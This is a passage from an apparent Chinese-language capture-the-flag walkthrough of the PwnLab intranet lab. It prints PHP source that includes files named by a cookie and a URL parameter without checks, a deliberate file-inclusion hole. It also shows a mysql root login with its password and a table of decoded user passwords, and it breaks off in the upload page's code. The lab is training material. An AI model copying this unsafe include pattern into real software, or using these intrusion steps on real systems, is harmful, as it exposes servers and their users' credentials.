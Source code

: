 ```php
<?php
//Multilingual. Not implemented yet.
//setcookie("lang","en.lang.php");
if (isset($_COOKIE['lang']))
{
	include("lang/".$_COOKIE['lang']);
}
// Not implemented yet.
?>
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
<hr/><br/>
<?php
	if (isset($_GET['page']))
	{
		include($_GET['page'].".php");
	}
	else
	{
		echo "Use this server to upload and share image files inside the intranet";
	}
?>
</center>
</body>
</html>
```

使用得到的用户口令，远程登陆 mysql 数据库：
mysql -h 192.168.10.169 -u root -pH4u%QJ_H99

查询 Uses.user 表得到了用户名和密码：

```
------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |   <-- JWzXuBJJNy
| mike | U0lmZHNURW42SQ== |   <-- SIfdsTEn6I
| kane | aVN2NVltMkdSbw== |   <-- iSv5Ym2GRo
+------+------------------+
```

使用上面得到的用户凭证登陆后台，登陆后能看到 upload 功能，先让我们看看 upload 的源代码是什么，是否有上传文件类型检测。

```php
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
```